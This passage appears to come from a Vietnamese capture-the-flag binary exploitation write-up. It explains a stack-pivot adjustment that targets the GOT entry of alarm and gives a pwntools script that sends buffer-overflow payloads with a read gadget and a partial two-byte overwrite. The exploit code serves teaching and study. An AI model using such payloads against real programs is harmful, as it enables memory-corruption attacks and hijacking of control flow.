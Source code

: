 ![alt text](image-6.png)

Nó sẽ return về một nơi không có dữ liệu và kiểm tra ở chỗ đó ta sẽ thấy

![alt text](image-7.png)

Vì thế ta cần phải ghi dữ liệu vào đây trước để khi nó return thì nó mới return được, vì vậy ta sẽ đổi payload đầu từ `rw_section + 0x20` -> `exe.got.alarm + 0x40` bằng cách này ta sẽ đảm bảo được rằng luôn có dữ liệu ở những vùng mà ta có thể kiểm soát

```py
    pl = flat(

        b'A' * 0x20,
        exe.got.alarm + 0x20 + 0x20,
        read_gadget

    )


    input("1st")
    sleep(0.5)
    s(pl)

    pl = flat(
        b'B' * 0x20,
        exe.got.alarm + 0x20,          # saved rbp 2
        read_gadget                    # saved rip 2
    )

    input("2nd")
    sleep(0.5)
    s(pl)

    input("3rd")
    sleep(0.5)
    s(p16(0xd1c0))
```
